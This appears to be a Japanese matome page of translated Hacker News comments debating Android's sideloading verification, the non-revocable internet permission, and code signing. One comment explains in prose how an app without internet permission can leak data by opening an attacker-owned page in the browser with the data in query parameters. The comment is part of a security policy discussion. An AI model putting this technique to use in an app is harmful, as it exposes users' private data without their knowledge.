{{<matomeQuote body="だから何なんだよ？許可のプロンプト出せばいいだろ。ユーザーに確認させろよ。それに、電卓アプリがWebViewをポップアップさせたら、データが漏れてるってすぐに気づくもんじゃないのか？<br>" userName="sterlind" createdAt="2025/08/26 04:26:45" color="">}}




{{<matomeQuote body="「アプリがブラウザにリンクするたびに許可プロンプトを出す」なんて、ユーザーは好きじゃないだろ。確かに怪しいけど、悪意のあるページはgoogle.comとか無害なサイトにリダイレクトするだけだしな。ユーザーには「あれ、Chromeが勝手に開いたな」としか見えないぞ。<br>" userName="UncleMeat" createdAt="2025/08/26 06:03:19" color="">}}




{{<matomeQuote body="WindowsにもCode Signingっていう同じようなものがあるんじゃないか？<br>https://www.electronforge.io/guides/code-signing/code-signin...<br>" userName="nolist_policy" createdAt="2025/08/26 06:16:09" color="">}}




{{<matomeQuote body="それは全く不必要な意味ででっち上げられたものだよ — ほとんどのマルウェアはPlay Storeにあるんだから。<br>" userName="const_cast" createdAt="2025/08/26 13:11:01" color="">}}




{{<matomeQuote body="＞Googleが“安全性”って言うたびに、Androidには95%の悪意あるアプリを無力化できる隠されたインターネット権限があることを思い出すんだ。でもそれは隠されてて、ユーザーがそれ使ってアプリの広告ブロックするのを防ぐ方が、Googleには大事らしいな。<br>データ流出にインターネット権限は必要なかったよ。攻撃者が所有するページを、流出させたいデータをquery parametersに入れてブラウザアプリにIntentを送るだけで済むからな。<br>" userName="UncleMeat" createdAt="2025/08/25 22:19:10" color="#785bff">}}




{{<matomeQuote body="Huh？ 「whack ass」って何？OSに組み込まれてるインターネット許可がユーザーに公開されてないのが問題だよ。親コメントは必要ないって言ってたけど、広告とかテレメトリー以外にネットを使わないアプリもたくさんあるんだから。これは全部事実。罵倒するんじゃなくて、なんでこの設定がユーザーに公開されてないのか、合理的な説明をしてくれないかな？" userName="zrobotics" createdAt="2025/08/26 01:11:55" color="#ff5c5c">}}




{{<matomeQuote body="Windowsだと未署名アプリも全然インストールできるし、せいぜい警告画面が一つ増えるだけだよ。VLCみたいに多くの人が使うオープンソースプロジェクトでも、インストーラーに署名してないこと多いんだぜ。" userName="tsimionescu" createdAt="2025/08/26 06:27:23" color="">}}




{{<matomeQuote body="インターネット許可って、設定でいじれない唯一の普通のマニフェスト許可なんだぜ。広告とか監視してる会社、Googleにとっては、これって超有利じゃん。何が「wack」なんだよ？" userName="ycombinatrix" createdAt="2025/08/26 00:55:56" color="#ff5c5c">}}




{{<matomeQuote body="Googleは昔Play Storeでどのアプリがインターネット許可を使ってるか表示してたけど、それも削除しちゃったから、ネットを使わないアプリを見つけるのが難しくなったんだ。Googleは、アプリ実行中に許可を拒否させないことが多いし、最近は実行時に選べる許可もあるけど、ネット許可を拒否させないのは驚きじゃないね。だってストアでも見せないんだから。" userName="toast0" createdAt="2025/08/25 22:01:14" color="#ff5c5c">}}




{{<matomeQuote body="インターネット許可はユーザーに公開されてるけど、ユーザーが取り消せないだけだよ。でも、他の100個くらいの許可も同じだし、許可が取り消せないのがデフォルトなんだ。インターネット許可が特にそうである理由を2つ挙げたけど、このコメントチェーンでは誰も反論してないじゃん。" userName="kllrnohj" createdAt="2025/08/26 04:48:51" color="">}}




{{<matomeQuote body="Googleがこの機能を特定の国から始めたのには理由があるんだ。一部の国では、インターネットからダウンロードされるAPKからのマルウェアがもっと目立ってるからね。政府自体が、国民を教育するのが無理だと分かったから、これを求めてるんだよ。もちろん、簡単に回避されるひどい解決策だろうけど、「Googleが今日ただの意地悪になっただけ」ってだけじゃないんだぜ。" userName="jeroenhd" createdAt="2025/08/26 04:42:19" color="#ff33a1">}}




{{<matomeQuote body="「エコシステムに壊滅的な変化をもたらすだろう」<br>ああ、それはもう賛成だよ、俺らを説得する必要はないって。" userName="broker354690" createdAt="2025/08/25 23:06:17" color="">}}




{{<matomeQuote body="「アプリがブラウザにリンクするたびに許可プロンプトをポップアップさせるのは、ユーザーが好きじゃないだろう」って言うけどさ。<br>Calculator.apkがhttps://eviltracker.example.comを開きたがってるときに、「今回だけ許可？」「24時間許可？」「許可して今後聞かない？」って出たらどうする？" userName="jech" createdAt="2025/08/26 09:31:32" color="#ff5c5c">}}




{{<matomeQuote body="このとんでもない主張の出典は何だよ？<br>それに、Play Storeでホストされてるマルウェアなら、身元が特定されてアカウントをバンできるっていう特性があるじゃん。" userName="jabedude" createdAt="2025/08/26 14:29:29" color="">}}




{{<matomeQuote body="企業認証は、銀行みたいな正規の機関を装うアプリ対策になるね。パッケージ名の公開鍵登録は、マルウェアによるパッケージ改変を防いでくれるんだ。例えば、Play Storeで手に入らないアプリをダウンロードしたい時、APKMirrorになくて怪しいサイトから落とすしかない場合、署名検証されてないからマルウェア入りか分からないって問題があるだろ？<br>これらは、実際にパッケージ内容をスキャンしなくてもできるし、TLSの世界におけるEV SSL証明書やDANE/TLSAみたいなもんだよ。" userName="black3r" createdAt="2025/08/25 21:58:30" color="#ff5c5c">}}

{{</details>}}



[記事一覧へ]({{% ref "/posts/" %}})
